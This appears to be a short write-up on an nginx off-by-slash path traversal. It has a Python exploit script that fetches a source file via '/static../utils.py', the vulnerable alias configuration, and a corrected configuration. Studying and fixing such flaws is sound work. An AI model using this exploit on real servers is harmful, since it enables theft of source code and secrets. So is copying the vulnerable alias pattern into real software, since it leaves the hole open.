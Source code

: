 #path-traversal #nginx 

## Vulnerability 

exploit.py - directory path traversal 
```bash
#!/usr/bin/env python3

# Modules
import requests

URL = "http://localhost"
FILE = 'utils.py'

def exploit():
    # Get the file
    r = requests.get(f"{URL}/static../{FILE}")

    # Save the file
    with open(f"/tmp/{FILE}", 'wb') as f:
        f.write(r.content)

    print(f"File {FILE} downloaded to /tmp/{FILE}")

if __name__ == "__main__":
    exploit()
```
nginx conf
```
location /static {
	alias /www/application/app/static/;
}
```
## Fix 



```nginx.conf
location /static/ {
    root /www/application/app;
    autoindex off;

    if ($request_uri ~* "/\.\.") {
        return 403;
    }
}
```

![](_attachments/Pasted%20image%2020250322093952.png)